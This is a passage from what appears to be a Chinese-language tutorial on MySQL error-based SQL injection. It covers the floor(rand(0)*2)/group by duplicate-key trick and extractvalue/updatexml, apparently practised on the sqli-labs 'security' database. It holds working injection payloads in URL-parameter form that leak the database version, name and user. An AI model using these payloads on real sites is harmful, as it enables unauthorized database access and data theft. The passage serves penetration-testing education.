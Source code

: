 这样做的目的就是让`group by`和`floor(rand(0)*2)`相遇，从而触发报错

简单的报错语句

```sql
mysql> select count(*),concat(user(),floor(rand()*2))x from security.users group by x;
ERROR 1062 (23000): Duplicate entry 'root@localhost0' for key 'group_key'

select * from security.users where id=1 and(select 1 from (select count(*) ,concat(database(),floor(rand(0)*2))x from security.users group by x)a)
```

联合查询、双查询报错注入

```sql
?id=0’ union select 1,2,3 from(select count(*),concat((select concat(version(),’-’,database(),’-’,user()) limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a --+

/*拆解出来就是下面的语句*/
concat((select concat(version(),’-’,database(),’-’,user()) limit 0,1),floor(rand(0)*2))x
```

**当在一个聚合函数，比如count()函数后面如果使用group by分组语句的话，就可能会把查询的一部分以错误的形式显示出来。但是要多次测试才可以得到报错**

大体思路就是当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来，但是因为随机数要测试多次才能得到报错，上面报错注入函数中的第一个`Floor()`就是这种情况。

#### extractvalue

在mysql高版本（大于5.1版本）中添加了对XML文档进行查询和修改的函数

```sql
updatexml（）
extractvalue（）
```

当这两个函数在执行时，如果出现xml文档路径错误就会产生报错

第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。

利用

```sql
?id=1' and extractvalue(1,concat(0x7e,(select  user()),0x7e))--+

and (extractvalue(‘anything’,concat(‘#’,substring(hex((select database())),1,5))))
```

#### updatexml

在mysql高版本（大于5.1版本）中添加了对XML文档进行查询和修改的函数

```sql
updatexml（）
extractvalue（）
```

当这两个函数在执行时，如果出现xml文档路径错误就会	         产生报错
